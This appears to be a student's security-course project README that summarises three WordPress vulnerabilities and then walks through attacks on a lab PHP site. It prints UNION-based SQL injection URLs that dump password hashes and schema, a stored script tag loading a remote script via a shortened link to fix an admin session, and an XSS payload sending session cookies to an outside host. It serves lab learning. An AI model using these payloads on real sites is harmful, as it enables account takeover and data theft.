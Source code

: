 # Weeks-7-8-Project-WordPress-vs.-Kali
Time spent: 30 hours spent in total

## SQL Injection:

This is an SQL injection vulnerability in Wordpress version 4.7.1. This vulnerability allows remote hackers to execute arbitrary commands by taking advantage an affected plugin or theme that mishandles a crafted post type name. This vulnerability requires very little knowledge or skill to exploit and is ranked 7.5 on the Common Vulnerability Scoring System. Authentication is not required to exploit the vulnerability. Modification of files and information on the system is possible, but the scope of what the attacker can affect is limited. 

## CRSF:
This is a cross-site request forgery CSRF vulnerability in the widget-editing accesibility-mode feature in Wordpress version 4.7.1. This allows remote hackers to hijack the authentication of unspcified victims for requestst that allow for widget-access action that is related to wp-aadmin/includes/class-wp-screen.php. This vulnerability has a CVSS score of 6.8. This vulnerability allows for limited scope of modification on the attacker’s behalf. Authenticcation is not required to exploit this vulnerability.

Example of this is found at https://github.com/WordPress/WordPress/commit/03e5c0314aeffe6b27f4b98fef842bf0fb00c733

## DoS:
This vulnerability allows remote attackers to cause a denial of service attack via unspecified vendors due to the oEmbed protocol implementation in the WordPress. This vulnerability existed in Wordpress version 4.5.2 and was secured in the 4.5.3 version. This has a CVSS score of 5.0 and was considered to be a low level of access complexity, meaning that very little knowledge is needed to exploit this. The CWE is not defined for this vulnerability.

## Vulnerability #1: SQL Injection (SQLi)

### Steps to recreate:

- Go to the salespearson page https://104.198.208.81/blue/public/salesperson.php?id=1

- Replace the id parameter with a single quote '. Example: https://104.198.208.81/blue/public/salesperson.php?id='

- After the quote type url encoded SQL command. Example: https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Chashed_password+FROM+users+limit+20+offset+2+--+

- You can interate through the records by changing the LIMIT and OFFSET values

- Some of the example commands:
https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Cdatabase()+--+ https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Ctable_name+FROM+information_schema.tables+where+table_schema%3D%27globitek_blue%27+limit+20+offset+2+--+ https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Ccolumn_name+FROM+information_schema.columns+where+table_schema%3D%27globitek_blue%27+limit+20+offset+2+--+

<img src="https://github.com/Rakesh-Nagaraju/Weeks-7-8-Project-WordPress-vs.-Kali/blob/main/sql_git.gif" width=250> <br>

## Vulnerability #2: Session Hijacking/Fixation
### Steps to recreate:

- When logged in as an admin go to "Countries, States, & Territories".
- Click on "Show", doesn't matter which country.
- Click on "Add a State".
- Enter values for "Name" and "Code" and click create.
- Click on "Add a Territory".
- Ender a value for "Name".
- In the filed "Position" type:
      <script src="https://bit.ly/2z1UCVh"></script>
- https://bit.ly/2z1UCVh is a shortened link for a js script hosted on GoogeDrive
- Sign in again to the website as an admin
- Now the owner on PHPSESSID hardcoded in js script is logged into the website as an admin
- This is possible because new PHPSESSID is not generated when a used logs into website

<img src="https://github.com/Rakesh-Nagaraju/Weeks-7-8-Project-WordPress-vs.-Kali/blob/main/session_hijacking.gif" width=250> <br>

## Vulnerability #3: Cross-Site Scripting (XSS)
### Steps to recreate:

- Go to the Contact page.
- In the text area type the following script
  <script>var node = document.createElement('img');
  node.src = "http://192.168.1.2:3000?cookie="+document.cookie;
  document.getElementById("main-content").appendChild(node);</script>
- Submit the form
- When admin checks the feeedback PHPSESSID will be sent to the http://192.168.1.2:3000 address as a GET parameter

<img src="https://github.com/Rakesh-Nagaraju/Weeks-7-8-Project-WordPress-vs.-Kali/blob/main/XSS.gif" width=250> 
